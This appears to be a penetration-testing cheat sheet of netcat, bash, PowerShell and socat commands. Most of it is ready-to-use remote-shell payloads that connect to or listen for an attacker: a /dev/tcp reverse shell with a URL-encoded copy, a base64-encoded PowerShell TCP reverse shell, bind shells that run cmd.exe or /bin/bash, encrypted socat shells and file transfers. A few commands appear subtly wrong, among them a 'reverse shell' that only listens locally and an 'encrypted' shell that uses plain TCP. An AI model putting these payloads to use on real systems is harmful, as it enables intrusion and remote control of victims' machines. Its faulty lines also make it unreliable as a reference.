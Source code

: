 - N.b. many commands below are being run as `sudo` to make use of a port in the `0-1024` range, since root is needed to bind a listener to a port `<1024`. Beyond this range this is not necessary.

## NETCAT

### Flags:
- `-n` Skip DNS resolution
- `-v` Verbose
- `-l` Create listener
- `-p <port number>` To specify port number

Create Listener:
```bash
nc -nlvp <port to listen on>
```
Make Connection:
```bash
nc -nv <IP address> <port>
```
Listen For File Transfer:
```bash
nc -nlvp <port> > incoming
```
Send File:
```bash
nc -nv <IP address> <port> < file/to/transfer
```
Create Bind Shell Windows:
```bash
nc -nlvp <port> -e cmd.exe
```
Send Reverse Shell Linux:
```bash
cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f
```

## OTHER

### Simple Reverse Shell Linux:
```bash
bash -c “bash -i >& /dev/tcp/<OurIP>/4444 0>&1”
```
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22
```
### Powershell Reverse Shell (Base64 Encoded):
```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
```bash
powershell -enc <our Base64 encoded Powershell revshell>
```
Powershell Simple HTTP Server (Doesn't seem to work after testing):
https://www.powershellgallery.com/packages/Start-WebServer/1.1/Content/Start-WebServer.ps1

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

### Bind Shell:
Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
```bash
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
Now just connect with the target
```bash
socat - TCP4:<target IP>:443
```
### Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d TCP4-LISTEN:443 STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443 EXEC:/bin/bash
```
### File Transfer (Attacker to Target):
Prepare listener on source that will send the file to any machine that makes a connection
```bash
sudo socat TCP4-LISTEN:443,fork file:<filename>
```
Connect to source from target
```bash
socat TCP4:<IP address>:443 file:<received filename>,create
```
### Generate .pem:
Generate certificate on target machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create .pem from keyfile and certificate
```bash
cat shell.key shell.crt > shell.pem
```
### Encrypted Bind Shell:
Begin listening for attempts to connect, and deliver a shell to anyone who tries
```bash
sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Connect like so
```bash
socat - OPENSSL:<target IP>:443,verify=0
```
### Encrypted Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash
```

